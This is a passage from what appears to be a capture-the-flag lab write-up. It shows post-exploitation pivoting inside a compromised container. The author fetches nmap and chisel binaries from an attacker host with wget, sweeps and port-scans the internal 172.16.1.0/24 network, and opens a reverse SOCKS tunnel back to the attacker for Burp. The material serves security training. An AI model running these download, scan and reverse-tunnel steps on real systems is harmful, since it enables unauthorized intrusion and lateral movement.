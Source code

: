 Next, enumerating the network by uploading a static `nmap` binary to the host and scanning the `172.16.1.0/24` network for other hosts, since our container has the IP address of `172.16.1.3`.

```console
9e0b831d786c:~# wget 10.11.72.22/nmap
9e0b831d786c:~# chmod +x nmap
9e0b831d786c:~# ./nmap -sn 172.16.1.0/24
...
Nmap scan report for 172.16.1.1
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.000035s latency).
MAC Address: 02:42:96:10:EF:DB (Unknown)
Nmap scan report for npm-registry.bestfestivalcompany.thm (172.16.1.2)
Host is up (0.000050s latency).
MAC Address: 02:42:AC:10:01:02 (Unknown)
Nmap scan report for 9e0b831d786c (172.16.1.3)
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 16.75 seconds
```

There are three hosts: the host at `172.16.1.1`, another container at `172.16.1.2` (from the hostname, it seems to be the one hosting the `Node.js` registry), and our container at `172.16.1.3`.

While we don't find anything unusual at the host, scanning the other container for open ports, apart from the `Verdaccio` on port `4873`, we see two other web servers at ports `3000` and `5000`.

```console
9e0b831d786c:~# ./nmap -p- -T5 172.16.1.2
...
Host is up (0.000028s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  unknown
4873/tcp open  unknown
5000/tcp open  unknown
MAC Address: 02:42:AC:10:01:02 (Unknown)
```

Let's also upload `chisel` to the container and establish a `SOCKS` proxy, so we can connect to these services directly.

```console
$ chisel server -p 7777 --reverse --socks5
```

```console
9e0b831d786c:~# wget 10.11.72.22/chisel
9e0b831d786c:~# chmod +x chisel
9e0b831d786c:~# ./chisel client 10.11.72.22:7777 R:socks &
```

Also setting up `Burp` to use the `SOCKS` proxy.

![Burp Socks Proxy](burp_socks_proxy.webp){: width="900" height="400"}

Now, visiting `http://172.16.1.2:3000/`, we see there is no handler set for the index.
